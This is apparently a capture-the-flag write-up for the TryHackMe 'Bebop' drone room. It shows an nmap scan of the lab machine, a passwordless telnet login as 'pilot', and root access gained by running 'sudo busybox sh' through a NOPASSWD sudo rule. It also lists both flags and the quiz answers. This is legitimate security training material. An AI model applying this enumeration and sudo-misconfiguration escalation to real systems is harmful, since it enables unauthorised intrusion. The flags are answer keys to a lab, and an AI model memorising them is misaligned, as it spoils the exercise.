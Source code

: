 ```yaml
---
Who thought making a flying shell was a good idea?
---
```


![](https://qlaims.com/wp-content/uploads/2017/10/drone-header.jpg)

### Takeoff! 

For this mission you have been assigned the codename "pilot".

Press the "Deploy" Button to make the drone takeoff!

What is your codename?
*pilot*

###  Manoeuvre 


Capture time! Hack the deployed ordinance, retrieve that flags, and submit below! Make sure to utilise your codename!

(Make sure you deployed the machine in the above first task, and make sure you're connected to the THM VPN)


```
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo nmap -sC -sV -T4 -A -Pn -sS -n -O 10.10.109.253
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-26 17:30 EDT
Nmap scan report for 10.10.109.253
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.5 (FreeBSD 20170903; protocol 2.0)
| ssh-hostkey: 
|   2048 5b:e6:85:66:d8:dd:04:f0:71:7a:81:3c:58:ad:0b:b9 (RSA)
|   256 d5:4e:18:45:ba:d4:75:2d:55:2f:fe:c9:1c:db:ce:cb (ECDSA)
|_  256 96:fc:cc:3e:69:00:79:85:14:2a:e4:5f:0d:35:08:d4 (ED25519)
23/tcp open  telnet  BSD-derived telnetd
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/26%OT=22%CT=1%CU=36562%PV=Y%DS=2%DC=T%G=Y%TM=63321A0
OS:B%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10D%TI=Z%CI=Z%II=RI%TS=22)S
OS:EQ(SP=F8%GCD=1%ISR=10F%TI=Z%CI=Z%TS=21)OPS(O1=M505NW6ST11%O2=M505NW6ST11
OS:%O3=M505NW6NNT11%O4=M505NW6ST11%O5=M505NW6ST11%O6=M505ST11)WIN(W1=FFFF%W
OS:2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFFF)ECN(R=Y%DF=Y%T=40%W=FFFF%O=M505NW
OS:6SLL%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T
OS:=40%W=FFFF%S=O%A=S+%F=AS%O=M505NW6ST11%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%
OS:A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=38%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=
OS:G)IE(R=Y%DFI=S%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   224.23 ms 10.11.0.1
2   224.54 ms 10.10.109.253

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.61 seconds
zsh: segmentation fault  sudo nmap -sC -sV -T4 -A -Pn -sS -n -O 10.10.109.253


┌──(kali㉿kali)-[~/Downloads]
└─$ telnet -l pilot 10.10.109.253
Trying 10.10.109.253...
Connected to 10.10.109.253.
Escape character is '^]'.
Last login: Sat Oct  5 23:48:53 from cpc147224-roth10-2-0-cust456.17-1.cable.virginm.net
FreeBSD 11.2-STABLE (GENERIC) #0 r345837: Thu Apr  4 02:07:22 UTC 2019

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
To determine whether a file is a text file, executable, or some other type
of file, use

        file filename
                -- Dru <genesis@istar.ca>
[pilot@freebsd ~]$ uname
FreeBSD
[pilot@freebsd ~]$ ls
user.txt
[pilot@freebsd ~]$ cat user.txt
THM{r3m0v3_b3f0r3_fl16h7}

priv esc
busybox gtofbins

[pilot@freebsd ~]$ sudo -l
User pilot may run the following commands on freebsd:
    (root) NOPASSWD: /usr/local/bin/busybox
[pilot@freebsd ~]$ sudo busybox sh
# uname
FreeBSD
# cd /root
# ls
.bash_history   .history        .login          root.txt
.cshrc          .k5login        .profile
# cat root.txt
THM{h16hw4y_70_7h3_d4n63r_z0n3}
```


What is the User Flag?
Enumerate the machine using nmap. Are there any interesting services running on the drone?
*THM{r3m0v3_b3f0r3_fl16h7}*



What is the Root Flag?
What commands can you run as root?
*THM{h16hw4y_70_7h3_d4n63r_z0n3}*

###  Quiz! 



Pssst!

Hey! Guess what! QUIZ TIME!




What is the low privilleged user?
Username
*pilot*



What binary was used to escalate privillages?
*busybox*



What service was used to gain an initial shell?
*telnet*



What Operating System does the drone run?
*FreeBSD*


### Closing words 

Bebop is a room based on the Parrot Bebop drone and takes heavy inspiration from the recollection of the DEFCON 23 talk "Knocking my neighbors kids cruddy drone offline".












[[ToolsRus]]